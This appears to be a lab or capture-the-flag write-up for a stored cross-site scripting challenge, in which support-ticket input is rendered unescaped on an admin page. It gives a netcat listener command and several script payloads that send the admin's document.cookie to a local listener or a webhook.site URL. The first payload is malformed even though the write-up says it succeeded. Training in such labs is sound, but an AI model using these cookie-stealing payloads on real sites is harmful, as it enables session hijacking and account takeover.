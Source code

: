 ## XSS - Challenge
- Objective: Steal the admin cookie by exfiltrating

### App Normal Functionality
- Load lab in 1st container and load admin lab in container 2
- User side can submit a support ticket providing the user's name and a description
- After refreshing the admin side can see the ticket come through
- Empty fields can be submitted

### User Input Location
- The user side submits ticket
- Displayed on admin side

### Try Inputs to Change Behavior
- Submit `<h1>test</h1>` as name shows header test as name on admin side
- Set up netcat listener `nc -lvnp 4444`
- Submit `<script src="localhost:4444" + document.cookie></script>` and refresh admin page
 
![image](https://github.com/user-attachments/assets/e738ff17-a9c9-49e2-a31d-930356004262)
- Cookie aquired!
- Alternate payload: `<script> var i = new Image; i.src="https://webhook.site/b9b4e186-1f27-4dac-b4f2-911eac7325c1/"+document.cookie;</script>`
- Alternate payload: `<script>new Image().src = "https://webhook.site/b9b4e186-1f27-4dac-b4f2-911eac7325c1/" + document.cookie</script>`

 ![image](https://github.com/user-attachments/assets/0413e7c8-e1a8-4a29-9716-985dd1fcb30b)
- Include plain text to avoid encoding to use netcat: `<script>new Image().src = "http://localhost:4444/test?" + document.cookie</script>`

